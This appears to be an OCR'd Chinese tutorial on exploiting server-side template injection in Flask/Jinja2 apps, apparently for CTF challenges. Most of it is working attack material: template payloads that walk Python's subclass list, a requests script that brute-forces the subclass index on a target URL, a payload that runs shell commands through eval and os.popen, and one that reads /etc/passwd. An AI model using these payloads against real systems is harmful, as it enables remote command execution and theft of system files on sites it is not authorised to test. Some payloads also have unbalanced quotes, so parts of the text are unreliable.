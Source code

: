 ### 查询注入模块
&emsp;&emsp;有回显我们可以直接用三步，将模块列举出来，没有也可以用脚本跑出来，然后选择合适的注入模块利用(用数列表示)即可。
```
{{().__class__.__base__.__subclasses__()}}
{{".__class__.__base__.__subclasses__()}}
{{"".__class__.__base__.__subclasses__()}}
{{config.__class__.__base__.__subclasses__()}}
{{[].__class__.__base__.__subclasses__()}}
```
```
import requests
url=input("请输入URL连接：")
for i in range(500):
    data={"post参数":"{{().__class__.__base__.__subclasses__()["+str(i)+"]}}"}
    try:
        response = requests.post(url,data=data)
        #print(response.text)
        if response.status_code == 200:
            if '_frozen_importlib_external.FileLoader（注入模块）' in response.text:
                print(i)  #输出所在行数
    except:
        pass
```

### 利用注入模块
&emsp;&emsp;知道模块所在行数(__subclasses__()[模块所在行数])后，就可以构造payload执行命令了,例如：
```
{{".__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("tac flag").read()')}}
```
&emsp;&emsp;这里用的注入模块(子类)为`_wrap_close`,<font color=red>注：方法为两条下划线，类（注入模块）只有一条且注入模块的位置不固定，也就是[]里面的数字是发生变化的。</font>
```
__builtins__    # 提供对python的所有"内置"标识符的直接访问
eval()          # 计算字符串表达式的值
popen()         # 执行一个shell以运行命令来开启一个进程
```

### 常用注入模块
&emsp;&emsp;知道上面这些方法怎么用之后，我们就可以利用注入模块，也就是里面存在的子类去调用它们执行命令(没有标记修改的说明data部分不需要修改)。常用的有

#### 文件读取
```
查询注入模块  _frozen_importlib_external.FileLoader
payload: {{".__class__.__mro__[1].__subclasses__()[79]["get_data"](0,"/etc/passwd")}}
```

#### 内建函数eval执行命令
```
查询注入模块 _wrap_close或者eval
(用查询脚本的修改部分)
data={"post参数" = “{{".__class__.__base__.__subclasses__()["+str(i)+"].__init__.__globals__['__builtins__']}}”}
if 'eval' in response.text:

payload: {{".__class__.__bases__[0].__subclasses__()[137].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("tac flag").read()')}}
```
